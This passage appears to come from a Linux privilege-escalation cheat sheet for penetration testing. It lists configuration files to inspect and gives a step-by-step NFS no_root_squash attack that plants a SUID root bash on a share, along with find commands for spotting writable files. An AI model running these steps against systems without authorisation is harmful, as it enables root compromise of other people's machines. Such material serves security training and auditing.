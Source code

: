 - **/etc/exports**: Contains configurations and permissions of which folders/file systems are exported to remote users.
  -> Search for **no_root_squash**. If present, you are root of the file systems/folders with that setting
  -> Search for **anonuid** and **anonuid**. Those are the uid and gid of the anonymous account mounting the system.
  If it's set to **0**, you will be root.

  ```bash
  # 1. Place a binary in it
  cp /bin/bash /VULNERABLE_SHARE
  # 2. Mount the share
  mount -t nfs SERVER:/VULNERABLE_SHARE /mnt/
  # 3. Get root
  chown root:root bash && chmod u+s bash
  ```

- **/etc/ssh/ssh_config**:

- **/etc/ssh/sshd_config**:
  -> Search for **PermitRootLogin**, if set to **yes**, you can login as root via SSH
  -> Search for **AllowUsers** in order to enumerate the users allowed to connect using SSH

- **/etc/cups/cupsd.conf**: You could found credentials or others usefull information in it
- **/etc/printer.conf**: You could found credentials or others usefull information in it

###### *If you don't know, now you know: **[NFS Root Squashing](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/4/html/security_guide/s2-server-nfs-noroot)**

Root squash is a technique to void privilege escalation on the client machine via suid executables Setuid. Without root squash, an attacker can generate suid binaries on the server that are executed as root on other client, even if the client user does not have superuser privileges.

Root squash is a special mapping of the remote superuser (root) identity when using identity authentication

Under root squash, a client's uid 0 (root) is mapped to 65534 (nobody).

##### All Files/Folder

```bash
find / -name *.db -print 2>/dev/null  # SQlite files
find . -type d -perm -g=x 2>/dev/null
find . -perm -u=x 2>/dev/null
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null # Writable files
```

Interesting files:

- /etc/sysconfig/network-scripts/ifcfg-xxx (Centos/Redhat):
  [source](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)
- /etc/passwd
